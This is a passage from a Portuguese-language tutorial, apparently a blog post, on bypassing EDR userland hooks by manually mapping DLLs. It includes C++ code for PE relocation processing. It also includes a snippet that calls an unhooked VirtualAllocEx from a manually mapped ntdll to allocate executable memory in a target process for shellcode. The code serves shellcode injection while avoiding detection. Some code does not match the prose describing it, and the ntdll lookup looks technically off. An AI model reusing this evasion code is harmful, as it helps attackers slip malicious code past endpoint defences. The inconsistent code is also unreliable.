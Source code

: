 ```c++
            thunk++;
        }
        importDesc++;
    }
}
```
Nesta etapa ajustam‑se todos os endereços internos da biblioteca quando ela não pode ser carregada exatamente no endereço que esperava. É como atualizar mapas e referências para que tudo continue a apontar para o lugar certo após a realocação. Então vamos ajustar os endereços internos da imagem PE de acordo com o deslocamento entre a base preferida definida no binário e a base efetivamente alocada em memória.

```c++
void ProcessRelocations(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    DWORD_PTR delta = (DWORD_PTR)baseAddr - 
        ntHeader->OptionalHeader.ImageBase;
    
    IMAGE_BASE_RELOCATION* reloc = GetBaseRelocation(baseAddr, ntHeader);
    
    while (reloc->VirtualAddress) {
        WORD* relocItem = (WORD*)((char*)reloc + 
            sizeof(IMAGE_BASE_RELOCATION));
        
        int count = (reloc->SizeOfBlock - 
            sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
        
        for (int i = 0; i < count; i++) {
            if ((relocItem[i] >> 12) == IMAGE_REL_BASED_DIR64) {
                DWORD_PTR* addr = (DWORD_PTR*)((char*)baseAddr + 
                    reloc->VirtualAddress + (relocItem[i] & 0xFFF));
                *addr += delta;
            }
        }
        
        reloc = (IMAGE_BASE_RELOCATION*)((char*)reloc + 
            reloc->SizeOfBlock);
    }
}
```
Nesta etapa final, o código da biblioteca mapeada é efetivamente utilizado: as funções exportadas são identificadas e chamadas para que a biblioteca execute as suas funcionalidades dentro do processo onde foi colocada.

```c++
typedef LPVOID (WINAPI* VirtualAllocExFunc)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);

VirtualAllocExFunc cleanVirtualAllocEx = 
    (VirtualAllocExFunc)GetProcAddressFromMapped(mappedNtdll, "VirtualAllocEx");

LPVOID memory = cleanVirtualAllocEx(targetProcess, NULL, 
    shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
# Limitações do Userland Hooking
Uma limitação é que os hooks são aplicados exclusivamente às bibliotecas dinâmicas (DLLs) que foram carregadas através do processo normal do **Windows PE Loader**. Isso significa que o EDR pode modificar apenas as funções presentes em bibliotecas já mapeadas no espaço de endereçamento do processo através dos métodos convencionais. Consequentemente, DLLs que são carregadas manualmente na memória, contornando o loader padrão, mantêm suas implementações originais sem qualquer modificação ou interceptação. 

